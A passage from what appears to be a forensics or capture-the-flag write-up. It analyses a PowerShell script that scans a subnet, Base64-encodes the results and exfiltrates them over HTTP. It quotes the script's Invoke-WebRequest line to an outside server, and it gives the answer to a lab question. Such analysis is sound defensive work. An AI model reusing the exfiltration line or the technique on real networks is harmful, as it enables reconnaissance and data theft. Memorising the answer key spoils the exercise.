Invoke-WebRequest -Uri "http://192.168.1.5:8000/$var" -Method GET


```

### Analysis of the Malicious Script
This PowerShell script executes the following steps:
1. **Defines a range of IP addresses (`192.168.1.1` to `192.168.1.99`)** to scan for active hosts.
2. **Creates an output file (`BL4356.txt`)** where scan results are stored.
3. **Pings each IP address in the range** using `Test-Connection`.
4. **Records whether each host is online or offline** in the output file.
5. **Encodes the contents of the output file in Base64**.
6. **Sends the encoded data to an external server (`http://192.168.1.5:8000/`)** for exfiltration using an HTTP GET request.
_The following image shows the contents of the file **BL4356.txt**. This file stores the results of the network scan performed by the PowerShell script. Each line records whether a specific host within the **192.168.1.x** subnet is online or offline._


### Conclusion
This script demonstrates a classic **network reconnaissance and exfiltration technique**, where the attacker:
- Scans for active machines within the network.
- Stores the results in a temporary file.
- Encodes the collected data in Base64.
- Exfiltrates the data to a remote attacker-controlled server.

Thus, the **final answer to Question 9** is:

**`C:\Users\Administrator\AppData\Local\Temp\BL4356.txt